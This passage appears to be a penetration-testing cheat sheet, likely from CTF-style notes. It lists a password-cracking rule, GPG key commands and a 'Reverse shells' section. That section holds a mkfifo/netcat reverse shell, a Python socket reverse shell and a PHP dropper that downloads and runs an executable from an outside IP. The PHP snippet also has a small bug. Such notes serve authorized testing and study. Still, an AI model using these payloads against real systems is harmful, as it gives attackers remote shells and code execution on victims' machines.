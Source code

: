 example rule

```markdown
[List.Rules:$name]
Az"[0-9][0-9]"
```

---

# ASC / GPG Keys
```bash
gpg --import private.key
```

```bash
gpg --decrypt fragment.asc
```

---

# Reverse shells

#### mkfifo payload
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

#### python payload
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Pentester-monkey
[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

#### High On coffee
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

#### Payloadallthings
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

#### XCT shell
```php
<?php
    $data = file_get_contents('<http://10.10.14.20:8000/xc.exe>');
    file_put_contents('C:\\\\programdata\\\\xc_10.10.14.20_9001.exe' . $data);
    system("C:\\\\programdata\\\\xc_10.10.14.20_9001.exe");
?>
```
